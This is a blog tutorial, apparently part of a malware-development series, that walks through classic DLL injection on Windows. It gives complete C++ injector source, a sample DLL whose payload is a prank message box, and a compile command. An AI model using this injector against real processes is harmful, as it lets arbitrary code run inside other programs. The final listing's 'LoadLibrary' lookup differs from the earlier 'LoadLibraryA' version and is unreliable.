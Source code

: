 ```yaml
---
layout: post
title: Let's Make Malware - Classic DLL Injection
---
```


![Lets Make Malware](/assets/lets_make_malware_header.jpg)
# Preamble

This week, we will cover Classic DLL Injection. As the name suggests, instead of injecting shellcode into a process, we will be forcing a process to run a DLL of our choice. This technique will use many of the same Windows API functions we covered previously. We will introduce just three new ones. Those are GetProcAddress, GetModuleHandle, and LoadLibrary. Later in this series, we will see just how special those three calls are. But for now, let’s get started.

We will be using last week’s source code on Remote Process Injection and modifying it a bit. That codebase looked like this:

```cpp
#include "windows.h"
int main() {
	//msfvenom Calc shellcode
	unsigned char payload[] = {… don't trust random shellcode blobs you find on the Internet … };
	HANDLE hProc = OpenProcess(PROCESS_VM_WRITE | PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD, FALSE, 7492);
	LPVOID buffer = VirtualAllocEx(hProc, 0, sizeof payload, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProc, buffer, payload, sizeof payload, NULL);
	HANDLE tHandle = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE) buffer, 0, 0, NULL);
	WaitForSingleObject(tHandle, INFINITE);
	return 0;
} 

```

# Change 1
The first thing we will change is our payload variable. We no longer need it. We will replace this with the following line:

```cpp
char myDLLPath[] = "C:\\Windows\\Temp\\myEvilDLL.dll";
```

This new variable is what will be the absolute path of our malicious DLL. We can either create one using MSFVenom or, in keeping with the theme of this series, create our own DLL like so:

```cpp
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
	switch(fdwReason) { 
		case DLL_PROCESS_ATTACH:
            		break;
        	case DLL_THREAD_ATTACH:
            		break;
        	case DLL_THREAD_DETACH:
            		break;
        	case DLL_PROCESS_DETACH:
            		break;
    	}    
    	return TRUE;  
}
```

Of course, this is just our template. We still need to add a few things to make this code functional and ready to compile. Our complete DLL code will look like so:

```cpp
#include "windows.h"
void execute() {
	MessageBox(NULL, "Don't call the cops bro. It's just a prank bro.", "You're already under my control", MB_OK);
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
	switch(fdwReason) { 
		case DLL_PROCESS_ATTACH:
			execute();
            		break;
        	case DLL_THREAD_ATTACH:
            		break;
        	case DLL_THREAD_DETACH:
            		break;
        	case DLL_PROCESS_DETACH:
            		break;
    		}    
    	return TRUE;  
}
```

We will cross-compile this using MinGW with the following command: 

x86_64-w64-mingw32-gcc --shared -o myEvilDLL.dll myEvilDLL.cpp

Now, that we have our DLL, we can go back to our injector executable. 

# Change 2
The next line we will change is line 10. That is our call to VirtualAllocEx. We will change the fourth parameter to this:

```cpp
LPVOID buffer = VirtualAllocEx(hProc, 0, sizeof myDLLPath, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

```

Before our buffer contained our shellcode, but now it contains the absolute path to our DLL.

# Change 3

Likewise for our call to WriteProcessMemory.

```cpp
WriteProcessMemory(hProc, buffer, myDLLPath, sizeof myDLLPath, NULL);
```

# Change 4

Next, we need to change line 12, our call to CreateRemoteThread. It will look like this:

```cpp
HANDLE tHandle = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE) GetProcAddress(GetModuleHandle("kernel32"), "LoadLibraryA"), buffer, 0, NULL);
```

To refresh, CreateRemoteThread is defined as such:

```cpp
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```

Before we provided our buffer variable as the argument to the lpStartAddress parameter and set lpParameter to 0 as we did not need it. This time, however, we use a combination of GetProcAddress and GetModuleHandle to find the memory address of a third API: LoadLibrary. 

Our buffer variable, which contains the absolute path of our malicious DLL, is then passed to LoadLibrary as an argument forcing the remote process to run it. 

GetProcAddress will find the memory address of a function, also known as a procedure, and returns it. It is defined like so:

```cpp
FARPROC GetProcAddress(
  [in] HMODULE hModule,
  [in] LPCSTR  lpProcName
);
```

The first parameter is a handle to a module. Or in other words, a DLL. This is where GetModuleHandle comes in.

The second parameter is the function (procedure) we are looking for. 

GetModuleHandle does as its name suggests: returns a handle to a module.

It is defined like so:

```cpp
HMODULE GetModuleHandleA(
  [in, optional] LPCSTR lpModuleName
);
```

Its only parameter is the module name we are looking for. Many of the functions we want to use as malware developers are in Kernel32.dll. It is a special DLL because Windows loads it into every process by default.

Finally, we have LoadLibrary. This should be self-explanatory as its purpose is to load a library (DLL).

It is defined like so:

```cpp
HMODULE LoadLibraryA(
  [in] LPCSTR lpLibFileName
);
```

Its parameter is also self-explanatory. It needs the file name of the DLL we want it to load. Simple!

And that’s everything we need. Our full injector code will look like this:

# All Together 

```cpp
#include "windows.h"
int main() {
	char myDLLPath[] = "C:\\Windows\\Temp\\myEvilDLL.dll";
	HANDLE hProc = OpenProcess(PROCESS_VM_WRITE | PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD, FALSE, 7492);
	LPVOID buffer = VirtualAllocEx(hProc, 0, sizeof myDLLPath, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProc, buffer, myDLLPath, sizeof myDLLPath, NULL);
	HANDLE tHandle = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE) GetProcAddress(GetModuleHandle("kernel32"), "LoadLibrary"), buffer, 0, NULL);
	WaitForSingleObject(tHandle, INFINITE);
	return 0;
} 
```

One thing of note is that we need to change the last parameter in our call to OpenProcess to the PID of the process we want to inject into before compiling. We will keep things simple and use notepad again. 

Now, we need to transfer our malicious DLL onto a test machine to the Windows\Temp folder. Once we have that in place (and transferred our injector executable as well, of course), we can run our injector and watch the magic happen.

And there we have it! Our DLL attached to notepad and our message box popped up.

![Message Box](/assets/dll_injected_msgbox.png)

To verify this, we can use process hacker to look at the loaded modules (DLLs) of the target process.

![Verifying DLL attached](/assets/dll_injected.png)

# Resources
[MSDN: VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)

[MSDN: WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)

[MSDN: CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)

[MSDN: GetProcAddress](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)

[MSDN: GetModuleHandle](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea)

[MSDN: LoadLibraryA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)

[MSDN: Data Types](https://learn.microsoft.com/en-us/windows/win32/winprog/windows-data-types)

[WikiBooks: Data Types](https://en.wikibooks.org/wiki/Windows_Programming/Handles_and_Data_Types)
